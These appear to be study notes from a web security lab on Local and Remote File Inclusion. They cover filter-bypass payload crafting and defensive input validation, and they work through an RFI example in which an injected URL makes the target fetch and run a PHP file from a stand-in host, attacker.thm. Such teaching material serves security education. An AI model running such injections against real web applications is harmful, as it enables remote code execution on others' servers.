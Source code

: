 1. **Error Messages and Black Box Testing:**
   - Utilize error messages to infer how inputs are processed.
   - Understand common error message patterns that reveal directory structures and file paths.

2. **Advanced Payload Crafting:**
   - Learn to use Null Byte injections and directory traversal sequences effectively.
   - Practice constructing payloads that bypass various filters and restrictions.

3. **Defensive Coding Practices:**
   - Recognize the importance of robust input validation and sanitization.
   - Implement allowlists to restrict permissible file inclusions.
   - Avoid using user input directly in file inclusion functions.

4. **Hands-On Practice:**
   - Set up vulnerable environments to practice advanced LFI exploitation techniques.
   - Experiment with different payloads to understand how various filters and validations can be bypassed.
----
### Remote File Inclusion (RFI)

Remote File Inclusion (RFI) is a critical vulnerability that allows an attacker to include remote files into a vulnerable web application. This type of attack occurs due to improper sanitization of user inputs, which allows external URLs to be injected into file inclusion functions. RFI poses a higher risk compared to Local File Inclusion (LFI) because it can lead to Remote Command Execution (RCE) on the server.

#### Key Points About RFI:
- **Conditions for RFI:** The `allow_url_fopen` option in PHP must be enabled.
- **Risks:** RFI can lead to severe consequences such as:
  - Remote Command Execution (RCE)
  - Sensitive Information Disclosure
  - Cross-Site Scripting (XSS)
  - Denial of Service (DoS)

#### RFI Attack Steps:

1. **Hosting a Malicious File:**
   - The attacker hosts a malicious PHP file on their server. For example, the file `cmd.txt` on `http://attacker.thm/cmd.txt` might contain:
     ```php
     <?php echo "Hello THM"; ?>
     ```

2. **Injecting the Malicious URL:**
   - The attacker injects the malicious URL into the vulnerable web application. The URL might look like:
     ```plaintext
     http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
     ```

3. **Execution on the Target Server:**
   - If the web application does not validate the input, the include function fetches and executes the remote file. The web server sends a GET request to `http://attacker.thm/cmd.txt`, includes its content, and executes it within the context of the web application.
